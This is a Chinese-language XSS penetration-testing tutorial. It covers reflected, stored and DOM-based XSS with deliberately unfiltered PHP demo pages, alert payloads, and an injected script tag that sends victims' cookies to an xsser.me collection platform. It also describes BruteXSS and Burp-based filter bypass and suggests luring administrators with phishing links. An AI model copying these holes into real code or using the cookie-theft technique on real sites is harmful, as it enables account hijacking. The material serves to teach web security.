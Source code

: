 ```yaml
---
title: 渗透测试XSS前端漏洞
tags: [getting_started]
keywords: release notes, announcements, what's new, new features
last_updated: July 16, 2016
summary: "红日安全"
sidebar: mydoc_sidebar
permalink: mydoc_release_notes_60.html
folder: mydoc
---
```


### 前言

这是渗透测试方面的第一课，我们跳过了社工技术的讲解，在之前的课程讲解中已经为大家介绍了社工技术的基本方法，对于社工，我们要做的就是足够细心和耐心，尽可能的收集可利用的信息，说起来很简单，但真正落到实际操作上就需要大家付出大量的时间和精力了。

### 前端漏洞

随着WEB应用越来越复杂，用户对WEB安全也越来越重视。再加上前端工程师的工作面已逐渐扩大，开始覆盖到各种业务逻辑，因此如何应对各种WEB安全问题就显得十分重要。现在危害比较大的前端漏洞主要有xss跨站脚本漏洞，csrf跨站请求伪造漏洞，网上大量的前端攻击行为都是基于这两种漏洞上形成的。今天我们就来介绍下xss漏洞。

### xss跨站脚本漏洞

**非持久型xss攻击**：顾名思义，非持久型xss攻击是一次性的，仅对当次的页面访问产生影响。非持久型xss攻击要求用户访问一个被攻击者篡改后的链接，用户访问该链接时，被植入的攻击脚本被用户游览器执行，从而达到攻击目的。

**持久型xss攻击**：持久型xss，会把攻击者的数据存储在服务器端，攻击行为将伴随着攻击数据一直存在。

xss也可以分成三类：

**反射型**：经过后端，不经过数据库

**存储型**：经过后端，经过数据库

**DOM型**：不经过后端，DOM—based XSS漏洞是基于文档对象模型Document Objeet Model,DOM)的一种漏洞，dom - xss是通过url传入参数去控制触发的。

#### 反射型xss

新建一个xss.php文件并加入以下代码：

```php
\\XSS反射演示  
<form action="" method="get">  
	<input type="text" name="xss"/>  
	<input type="submit" value="test"/>  
</form>  
<?php  
	$xss = @$_GET['xss'];  
	if($xss!==null){  
		echo $xss;  
	}
?>
```

这段代码中首先包含一个表单，用于向页面自己发送`GET`请求，带一个名为xss的参数。 然后PHP会读取该参数，如果不为空，则直接打印出来，这里不存在任何过滤。也就是说，如果xss中存在HTML结构性的内容，打印之后会直接解释为HTML元素。

部署好这个文件，访问`http://localhost/xss.php`，直接输入一个js代码，比如`<script>alert('hack')</script>`

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/1.jpg)

之后点击test：

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/2.jpg)

我们输入的HTML代码被执行了。用Firebug查看，我们输出的内容直接插入到了页面中，解释为<script>标签。

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/3.jpg)

反射型XSS的数据流向是：`浏览器` -> `后端` -> `浏览器`。

#### 存储型xss

把xss.php内容改为下述内容（同时数据库中需要配置相应的表）：

```php
\\存储XSS演示  
<form action="" method="post">  
	<input type="text" name="xss"/>  
	<input type="submit" value="test"/>  
</form>  
<?php  
	$xss=@$_POST['xss'];  
	mysql_connect("localhost","root","123");  
	mysql_select_db("xss");  
	if($xss!==null){  
		$sql="insert into temp(id,payload) values('1','$xss')";  
		$result=mysql_query($sql);  
		echo $result;  
	}
?>
```

用户输入的内容还是没有过滤，但是不直接显示在页面中，而是插入到了数据库。

新建show.php，内容为：

```php
<?php 
	mysql_connect("localhost","root","root");  
	mysql_select_db("xss");  
	$sql="select payload from temp where id=1";  
	$result=mysql_query($sql);  
	while($row=mysql_fetch_array($result)){  
		echo $row['payload'];  
	}
?>
```
 
该代码从数据库读取了之前插入的内容，并将其显示出来。

先创建一个数据库xss,创建temp表

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/4.jpg)

然后访问xss.php，像之前一样输入HTML代码

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/5.jpg)
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/7.jpg)

点击test，点击之后却发现没有任何动静，但事实上，我们的数据已经插入到了数据库中。

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/6.jpg)

当我们访问show.php查询这个值的时候，代码就会被执行。
 
存储型XSS的执行位置通常不同于输入位置。我们可以看出，存储行XSS的数据流向是：
`浏览器` -> `后端` -> `数据库` -> `后端` -> `浏览器`。

#### DOM型xss

把xss.php内容改为

```php
<?php  
	error_reporting(0); //禁用错误报告  
	$name = $_GET["name"];  
?>  
<input id="text" type="text" value="<?php echo $name;?>" />  
<div id="print"></div>  
<script type="text/javascript">  
	var text = document.getElementById("text");   
	var print = document.getElementById("print");  
	print.innerHTML = text.value; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。  
</script>  
```


![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/8.jpg)

DOM-XSS 的数据流向是：`URL` -->`浏览器` 

#### 总结

在易用上，存储型XSS > DOM - XSS > 反射型 XSS。

>注：反射型xss和dom-xss都需要在数据包中加入js代码才能够触发。

### 漏洞利用

通过 XSS 来获得用户 Cookie 或其他有用信息，利用平台负责接收并保存这些信息。XSS利用平台有很多种如XSS Shell, BeEF, Anehta, CAL9000。

进入搭建好的xsser.me平台首页输入用户名与密码进行登录

成功之后会显示主界面，左边是模块列表，右边是项目列表： 


![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/9.jpg)

我们点击左边“我的项目”旁边的“创建”按钮：

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/10.jpg)


名称和描述可以随便取，不影响使用。输入时候点击“下一步”按钮。之后会出现“配置代码”界面：

1[](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/11.jpg)

点击下一步、就会看到这个项目的一些信息

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/11.jpg)
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/12.jpg)
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/13.jpg)


点击完成。然后我们会在首页看到我们的新项目，点击这个项目：

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/14.jpg)

之后点击项目，进入一个页面再点击右上方的查看代码

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/15.jpg)

就可以看到使用方法：

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/16.jpg)

下面就演示下怎么利用

把`<script src="..."></script>`注入到反射型 XSS 的演示页面中。
 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/17.jpg) 
 
上面的src="xxxx"是我另外创建的一个项目的地址，把你创建好的那个项目，提供的那个地址放进去，就可以了，虽然这个页面没反应，但是xsser.me那个项目就收到消息了。
 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/18.jpg) 
 
### 测试方法

#### 工具测试

工具方面主要介绍brutexss，工具简单但效果非常好，也可以加入自己累积的测试语句和绕过语句
BruteXSS是一个非常强大和快速的跨站点脚本暴力注入。它用于暴力注入一个参数。该BruteXSS从指定的词库加载多种有效载荷进行注入并且使用指定的载荷和扫描检查这些参数很容易受到XSS漏洞。得益于非常强大的扫描功能。在执行任务时， BruteXSS是非常准确而且极少误报。 BruteXSS支持POST和GET请求，适应现代Web应用程序。
开始界面
 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/19.jpg) 
 
选择相应的数据提交方法，并输入测试的链接及相对就的参数

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/20.jpg)
 
接下来选择测试payload 就可以开始测试了，自动进行测试，并会输出对应漏洞内容；

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/21.jpg)
 
Payload可以自己去完善是这个工具的一大亮点
 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/22.jpg) 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/23.jpg)
 
在以后的日子中发现了那种绕过的方法是工具中没有的只要把payload加入到列表中就可以了。

#### 手工测试

手工测试是一个复杂的过程，我们要针对页面返回的内容去构造，这个过程我们要用到神器burpsuit了，利用工具，我们来截断数据包进行对比分析吧。
页面的效果是这样的
 
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/24.jpg) 
 
他的实际内容是这样的

![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%BA%94%E8%8A%82/25.jpg)
 
我们手工就是要根据返回的内容去进行修改，如果对方闭合了`〈〉`或`‘‘`等符号我们要在里面进行修改，亦或是对方对语句中的某个点进行了限制，我们要进行绕过测试，找到他们禁用的值，这样我们才可以完成整个攻击行为。

### 危害

由于能够在生成的 Web 页面中注入代码，能想到的威胁有多么严重，就可以有多么严重的威胁。攻击者可以使用 XSS 漏洞窃取 Cookie，劫持帐户，执行 ActiveX，执行 Flash 内容，强迫您下载软件，或者是对硬盘和数据采取操作。

只要您点击了某些 URL，这一切便有可能发生。每天之中，在阅读来自留言板或新闻组的受信任的电子邮件的时侯，您会多少次地单击其中的 URL？

网络钓鱼攻击通常利用 XSS 漏洞来装扮成合法站点。可以看到很多这样的情况，比如您的银行给你发来了一封电子邮件，向您告知对您的帐户进行了一些修改并诱使您点击某些超链接。如果仔细观察这些 URL，它们实际上可能利用了银行网站中存在的漏洞，它们的形式类似于 `http://mybank.com/somepage?redirect=<script>alert(‘XSS’)</script>`，这里利用了“redirect”参数来执行攻击。

如果您足够狡猾的话，可以将管理员定为攻击目标，您可以发送一封具有如下主题的邮件：“求救！这个网站地址总是出现错误！”在管理员打开该 URL 后，便可以执行许多恶意操作，例如窃取他（或她）的凭证。

好了，现在我们已经理解了它的危害性 -- 危害用户，危害管理员，给公司带来坏的公共形象。

